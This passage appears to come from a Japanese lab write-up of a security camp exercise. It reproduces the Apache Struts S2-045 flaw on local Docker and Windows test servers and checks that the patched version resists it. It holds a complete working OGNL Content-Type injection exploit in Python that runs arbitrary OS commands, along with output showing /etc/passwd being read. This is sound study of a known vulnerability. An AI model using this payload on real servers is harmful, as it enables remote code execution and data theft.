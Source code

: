 ```

print requests.get(url, headers={
  'Content-Type': payload
}).content
$ python2 exploit.py
root:x:0:0:root:/root:/bin/bash
(省略)
```

/etc/passwd の内容を得ることが出来ました。脆弱性の修正されたバージョン (Apache Struts 2.5.10.1) でも同じペイロードを使って攻撃を試みます。

```
$ wget https://dist.apache.org/repos/dist/release/struts/2.5.10.1/struts-2.5.10.1-apps.zip
$ unzip struts-2.5.10.1-apps.zip
$ cat Dockerfile
FROM tomcat:7.0-jre8
ADD struts-2.5.10.1/apps/struts2-rest-showcase.war /usr/local/tomcat/webapps/
CMD ["catalina.sh", "run"]

$ docker build -t seccamp2017-q1:invuln .
$ docker run -d -it --rm -p 8080:8080 seccamp2017-q1:invuln
```

```
$ python2 exploit.py
<!DOCTYPE html>
(省略)
```

今度は /etc/passwd の内容は出力されませんでした。

Windows でも S2-045 が残っているバージョン (Apache Struts 2.5.10) の環境を用意して攻撃を試みます。以下の手順で環境を用意しました。

- [Apache Tomcat 8.5.15](http://tomcat.apache.org/download-80.cgi) をインストール
- [struts-2.5.10-apps.zip](https://dist.apache.org/repos/dist/release/struts/2.5.10/struts-2.5.10-apps.zip) をダウンロードして展開
- (インストールしたフォルダ)\webapps に struts-2.5.10-apps\struts-2.5.10-apps\apps\struts2-rest-showcase.war をコピー
- Tomcat を立ち上げる

http://localhost:8080/struts2-rest-showcase/orders.xhtml でサービスが立ち上がっているのが確認できました。実行する OS コマンドを簡単に指定できるようにエクスプロイトを書き換えて、攻撃を行います。

```
C:\Users\st\Documents\seccamp2017\A-1\q1\win>type exploit.py
import requests
import sys

url = 'http://192.168.99.100:8080/struts2-rest-showcase/orders.xhtml'
payload = "Content-Type:%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='" + sys.argv[1] + "').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"

print requests.get(url, headers={
  'Content-Type': payload
}).content
C:\Users\st\Documents\seccamp2017\A-1\q1\win>python2 exploit.py "cat /etc/passwd"
'cat' は、内部コマンドまたは外部コマンド、
操作可能なプログラムまたはバッチ ファイルとして認識されていません。
```
